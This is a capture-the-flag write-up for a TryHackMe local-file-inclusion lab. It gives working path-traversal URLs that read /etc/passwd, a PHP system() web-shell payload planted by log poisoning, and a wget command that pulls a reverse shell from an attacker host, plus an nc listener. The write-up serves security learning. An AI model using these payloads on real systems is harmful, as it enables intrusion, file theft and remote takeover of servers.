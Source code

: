 # TryHackMe : LFI_Basics


## Initial Recon

```
sudo nmap -sC -sV 10.10.170.246 > rec_ini
```

Only port 80 is open.

## Checking the web page : 

![](Pictures/web_page.png)


## First Walkthrough

It gives the url  : 

```
http://10.10.170.246/lfi/lfi.php
```

As asked in the guide, add `?page` to the url.

```
http://10.10.170.246/lfi/lfi.php?page=home.html
```

Adding home.html, gives us the home.html page.

![](Pictures/home_html.png)

### Try adding `/etc/passwd`

```
http://10.10.170.246/lfi/lfi.php?page=/etc/passwd
```

This gives the `/etc/passwd` file : 

![](Pictures/etc_passwd.png)

The default user present is  : 

```
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash
```


### Piece of code which actually leads to LFI

```
$local_file = $_REQUEST["page"];
```



## Directory Traversal 

To know more about Directory Traversal : 

https://owasp.org/www-community/attacks/Path_Traversal



**Directory traversal or Path Traversal is an HTTP attack which allows attackers to access restricted directories and execute commands outside of the web server’s root directory or other paths.**


Now here, if we again try to access the `home.html` page, we wont be able to.


### Using path traversal to get credit card

Now if we move up one directory, and access creditcard, we can get it : 

```
http://10.10.170.246/lfi2/lfi.php?page=../creditcard
```

![](Pictures/credircard.png)


### /etc/passwd file


We can move up more directories to get the `/etc/passwd` file : 

```
http://10.10.170.246/lfi2/lfi.php?page=../../../../../../../etc/passwd
```


### Vulnerable Code which leads to path traversal

```
$local_file = "html/".$_REQUEST["page"];
```



## Log Poisoning

**Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability. To make it work an attacker attempts to inject malicious input to the server log.**

**Note: In order for that to happen, the directory should have read and execute permissions.**


### Accessing the apache2 logfile

The file is located in `/var/log/apache2/access.log`

![](Pictures/log_file.png)


### Poisoning the log

Since we can access the log, we can try to poison it.

1) Capture the request using Burp.</br>


![](Pictures/request_captured.png)

2) Change the User-Agent to insert a malicious php code : 

```
<?php system($_GET['lfi']); ?>
```


This wil allow the url to take a parameter `lfi` which will be able to execute commands.

3) Use the lfi parameter to test for command exection

```
http://10.10.170.246/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls
```

![](Pictures/command_execution.png)

We can see that the command `ls` is executed and the output is shown.


4) Use the lfi to read the flag from the user `lfi`

```
http://10.10.170.246/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r
```


![](Pictures/user.png)


## Getting code execution 

Instead of only using the lfi, we can upload a shell and get code execution.

1) Start the http server and get the php reverse shell ready.</br>
2) Use `wget` to upload the shell to the server</br>

```
http://10.10.170.246/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=wget http://10.9.84.8/shell.php
```

3) Since the shell is uploaded in the same root directory for the web server, visit `shell.php` directly and get shell .

```
rlwrap nc -nlvp 1331

http://10.10.170.246/lfi/shell.php
```

![](Pictures/shell.png)



# FOR FURTHER REFERENCE

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
